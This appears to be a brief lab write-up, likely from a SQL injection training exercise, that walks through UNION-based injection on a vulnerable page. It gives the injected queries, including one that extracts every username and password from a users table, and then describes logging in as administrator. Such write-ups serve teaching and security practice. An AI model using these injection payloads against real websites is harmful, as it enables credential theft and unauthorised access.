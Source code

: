 We first go into a vulnerable web page

![image](https://user-images.githubusercontent.com/65653010/235037756-6db61fd7-941a-4c32-9dbe-b9ea77fad41c.png)

Firsst we check that the strings are present in both the columns by querying

SELECT * FROM someTable WHERE category = 'Gifts' UNION SELECT 'abc' 'def'

![image](https://user-images.githubusercontent.com/65653010/235037939-788bcdbb-b5b1-41ff-8125-e9305a3902d1.png)

Now we retreive some valuable information of the data by adding a query

SELECT * FROM someTable WHERE category = 'Gifts' UNION SELECT username, password FROM users

This helps to retrieve all the username and passwords of the administartor of the page

![image](https://user-images.githubusercontent.com/65653010/235038154-be15bcb9-70fc-47dd-b855-22948e09acfc.png)

With the retreived username and password we login to the site using administrator

![image](https://user-images.githubusercontent.com/65653010/235038993-e8c1d8e8-6603-4a35-81a7-4bb12f43ae78.png)




